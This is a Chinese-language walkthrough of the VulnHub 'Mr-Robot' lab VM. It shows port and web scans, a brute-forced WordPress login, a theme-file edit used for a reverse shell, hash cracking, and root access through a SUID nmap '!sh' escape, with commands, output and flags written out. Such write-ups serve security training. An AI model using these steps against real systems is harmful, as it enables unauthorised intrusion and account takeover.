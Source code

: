 # Mr-Robot：1

下载地址

```
https://download.vulnhub.com/mrrobot/mrRobot.ova
```

## 实战操作

靶机扫描地址：`192.168.32.169`。

![image-20220715095522855](../../.gitbook/assets/image-20220715095522855.png)

对靶机进行端口扫描

```
┌──(root💀kali)-[~/Desktop]
└─# nmap -p1-65535 192.168.32.169                                                                                                                                                                                                      
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-14 21:55 EDT
Nmap scan report for 192.168.32.169
Host is up (0.00030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 00:0C:29:DC:72:F4 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 106.71 seconds

```

访问80端口网站是动画。

![image-20220715095913509](../../.gitbook/assets/image-20220715095913509.png)

扫描80端口

```
┌──(root💀kali)-[~/Desktop]
└─# nikto -h http://192.168.32.169
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.32.169
+ Target Hostname:    192.168.32.169
+ Target Port:        80
+ Start Time:         2022-07-14 21:58:32 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in 
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See htt
+ OSVDB-3092: /admin/: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://192.168.32.169/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /wordpresswp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ /wordpresswp-login.php: Wordpress login found
+ 7915 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2022-07-14 22:01:02 (GMT-4) (150 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

目录爆破

![image-20220715100325269](../../.gitbook/assets/image-20220715100325269.png)

发现文件：`robots.txt`。

![image-20220715095959357](../../.gitbook/assets/image-20220715095959357.png)

下载这两个文件，其中`key-1-of-3.txt`是一个加密字符串，`fsocity.dic`是一个字典，我猜这是我们以后必须使用的东西。

```
073403c8a58a1f80d943455fb30724b9
```

有许多不同的工具能够暴力破解 Web 应用程序，而 Burp Suite 对于这项任务可能有点矫枉过正。但是，我知道如何使用 Burp 并且发现它非常直观，所以我将坚持我所知道的。开启代理后，我将捕获登录请求并将其发送给入侵者。在那里，我将清除现有位置并将我自己的位置添加到日志参数中。

然后，我将 fsociety.dic 文件加载到有效负载中并开始攻击 很快我们就可以看到用户 Elliot 的响应长度与其余响应的长度不同。这表明被发回的错误消息与其他用户的错误消息不同。

![image-20220715101808986](../../.gitbook/assets/image-20220715101808986.png)

爆破wordpress登录密码

```
[!] Valid Combinations Found:                                                                                        
 | Username: Elliot, Password: ER28-0652                                                                             
                                                                                                                     
[!] No WPScan API Token given, as a result vulnerability data has not been output.                                   
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register                
                                                                                                                     
[+] Finished: Thu Jul 14 22:58:31 2022                                                                               
[+] Requests Done: 1889                                                                                              
[+] Cached Requests: 6                                                                                               
[+] Data Sent: 634.845 KB                                                                                            
[+] Data Received: 176.135 MB                                                                                        
[+] Memory used: 376.395 MB                                                                                          
[+] Elapsed time: 00:37:43      
```

登录wordpress

![image-20220715151518007](../../.gitbook/assets/image-20220715151518007.png)

修改404.php

> https://192.168.32.169/wp-admin/theme-editor.php

![image-20220715152217583](../../.gitbook/assets/image-20220715152217583.png)

nc反弹成功，找到一个hash

```
$ cat pass*
robot:c3fcd3d76192e4007dfb496cca67e13b
```

![image-20220715152257306](../../.gitbook/assets/image-20220715152257306.png)

去网上查找hash的值密码，`abcdefghijklmnopqrstuvwxyz`

![image-20220715152440777](../../.gitbook/assets/image-20220715152440777.png)

```
$ python -c 'import pty; pty.spawn("/bin/bash")'        
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ 
```

查看key.txt

```
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat ke*  
cat ke*
822c73956184f694993bede3eb39f959
```

但是无法破解

![image-20220715152712996](../../.gitbook/assets/image-20220715152712996.png)

查看SUID的程序

```
robot@linux:~$ find / -u=s --perm 2>/dev/null
find / -u=s --perm 2>/dev/null
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

使用nmap进行提权

```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root      
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key*
cat key*
04787ddef27c3dee1ee161b21670b4e4
# cat fi*
cat fi*
# cat firstboot_done
cat firstboot_done
# 
```

